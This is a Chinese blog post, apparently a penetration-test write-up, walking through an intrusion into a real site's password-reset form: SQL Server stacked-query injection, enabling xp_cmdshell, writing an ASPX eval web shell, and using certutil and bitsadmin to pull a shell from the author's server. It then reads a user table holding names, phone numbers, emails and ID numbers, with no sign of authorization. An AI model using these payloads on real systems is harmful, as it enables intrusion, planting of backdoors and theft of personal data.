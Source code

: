 +++
title = "从 SQL Server 注入到 getshell"
topics = ["Pentest"]
tags = ["pentest","getshell"]
description = "SQLServer 多语句查询 SQL 注入，读网站路径然后写 shell"
date = "2019-03-02T20:23:35+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2019-03-02 10:45:01
 * @LastEditTime: 2019-07-01 20:43:45
 -->
### 0x00 目标情况
* 一个web站点111.\*.\*.63，只有一个登陆框，测试了没有注入，没有弱口令
* 扫描了全端口，没有发现什么有用的信息

### 0x01 发现注入
当时是查看网页源代码，有两个可疑接口，一个是初始化密码借口，访问返回空白页面，没有什么用

另一个是密码设置接口，不过这个接口是同网段的另一个ip 111.\*.\*.59，访问后发现是个重置密码的界面
![80](/img/post/Xnip2019-03-03_14-50-18.png)

但是进行密码重置的时候需要发送验证码，系统会先校验用户名是否存在，加单引号出错，and 1=2没反应

burpsuite抓包后sqlmap跑了下，python sqlmap.py -r 1.txt，存在注入
![80](/img/post/Xnip2019-03-03_16-00-32.png)

通过sqlmap得到了这几个数据库
```
[*] HSOA_20170320
[*] HSOA_NEW
[*] HSOA_T
[*] master
[*] model
[*] msdb
[*] Shuttle
[*] SHWT
[*] tempdb
```

### 0x02 找网站绝对路径
* 判断是不是dba权限(延时后返回正确页面，确定为dba权限<也可用sqlmap的--is-dba判断>)

```
uname=test';if(1=(select is_srvrolemember('sysadmin'))) WAITFOR DELAY '0:0:2';--
```

* 判断是否是站库分离(延时后返回正确页面，确定站库没有分离)

```sql
uname=test';if(host_name()=@@servername) WAITFOR DELAY '0:0:5';--
```

* 查看是否有xp_cmdshell

```
uname=test';if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:2'--
```
```
恢复／删除xp_cmdshell
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'
exec sp_dropextendedproc 'xplog70.dll'
```

* 开启xp_cmdshell

```
# 关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',0;
RECONFIGURE;

# 启用xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

* 得到网站绝对路径

可以找一个在网站中的文件，然后可以用```dir /s /b d:\"aa.txt"```或者 for /r d:\ %i in (aa.txt) do echo %i来得到路径

查看网页源代码发现引入了js脚本```"<script src="/Content/layer/layer.js"></script>"```，就查找layer.js吧

本来想使用sqlmap的-\-os-shell直接执行命令试试，python sqlmap.py -r 1.txt --os-shell，但是发现执行命令的话一直没有数据返回

<br>
那就手工注入找路径，先建表，将路径插入表，然后得到表内容

```
--在数据库tempdb下创建临时表tt_tmp
uname=test';use tempdb;create table tt_tmp (tmp1 varchar(1000));--
```

sqlmap查看建表成功，```sqlmap -r 1.txt --dbms "Microsoft SQL Server" -D "tempdb" --tables```
![40](/img/post/Xnip2019-03-03_18-16-01.png)

```
--查找网站文件并把路径写入到表tt_tmp
uname=test';use tempdb;insert into tt_tmp(tmp1) exec master..xp_cmdshell 'dir /s /b d:\layer.js';--
```

用sqlmap得到表tt_tmp的内容: ```python sqlmap.py -r 1.txt --dbms="Microsoft SQL Server" --technique=S -D "tempdb" -T "tt_tmp" -C "tmp1" --dump -v 3```
![65](/img/post/Xnip2019-02-28_10-01-37.png)

### 0x03 尝试在111.\*.\*.59主机getshell
* 尝试写一句话

先在下面的路径中写入txt文件验证网站路径到底是哪一个

```
D:\bak\20170226\bak\20170403.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.3\webapp\Content\layer\
D:\bak\20170226\bak\20170404\webapp\Content\layer\
D:\bak\20170226\bak\20170405\webapp\Content\layer\
D:\bak\20170226\bak\20170407\webapp\Content\layer\
D:\bak\20170226\bak\20180103\webapp\Content\layer\
D:\bak\20170226\bak\20180320\webapp\Content\layer\
D:\bak\20170226\webapp\Content\layer\
D:\bak\20170226\webappYM\Content\layer\
D:\WEBAPP\Content\layer\
```

```sql
uname=test';exec master..xp_cmdshell 'echo test >D:\bak\20170226\bak\20170403.2\webapp\Content\layer\11.txt';--
```
依次写文件然后访问，在写入 ```D:\bak\20170226\webapp\Content\layer\123.txt```时，访问```http://111.*.*.59/Content/layer/123.txt```能正常访问到123.txt，返回内容为test，证明web路径就是D:\bak\20170226\webapp\
<br>
尝试写入一句话(< >的前面要加^)
```sql
uname=test';exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.item["Aa1234567"],"unsafe");%^> > D:\bak\20170226\webapp\Content\layer\cc.aspx';--
```

访问时可以看到aa.aspx确实写入了，但是菜刀连接不上
![70](/img/post/Xnip2019-03-03_20-25-24.png)

* 尝试直接下载shell到服务器

使用bitsadmin下载时并没有成功，访问```http://111.*.*.59/Content/layer/aaa.aspx```返回404
```sql
uname=test';exec master..xp_cmdshell 'bitsadmin /rawreturn /transfer getfile http://my-vps/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```

使用certutil下载时才成功，得到shell地址```http://111.*.*.59/Content/layer/aaa.aspx```
```sql
uname=test';exec master..xp_cmdshell 'certutil -urlcache -split -f http://my-vps/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```
![70](/img/post/Xnip2019-03-03_20-42-24.png)

### 0x04 查数据库相关信息
* 找到数据库配置文件
![80](/img/post/Xnip2019-03-05_10-25-52.png)
![90](/img/post/Xnip2019-03-05_10-34-10.png)
![90](/img/post/Xnip2019-03-05_10-37-28.png)

* 尝试登陆

找到了用户表，有用户名、密码、姓名、手机号、邮箱、身份证号
![80](/img/post/Xnip2019-03-05_11-00-44.png)
在111.\*.\*.63登陆发现它只是个登陆接口，真正网站是在111.\*.\*.59的
![60](/img/post/Xnip2019-03-05_11-03-08.png)


### 0x05 附：sqlmap得到路径的语句分析
```sql
cast转换数据类型
isnull判断数据是否为空，为空的话返回char(32)
unicode字符转换为10进制数字

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp),1,1))>32) WAITFOR DELAY '0:0:1';

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp WHERE CONVERT(NVARCHAR(4000),tmp1)>'D:\WEBAPP\Content\layer\layer.js'),1,1))>16) WAITFOR DELAY '0:0:1';
```


<br>
#### Reference(侵删)：
* [https://www.cnblogs.com/backlion/p/6869595.html](https://www.cnblogs.com/backlion/p/6869595.html?_blank)



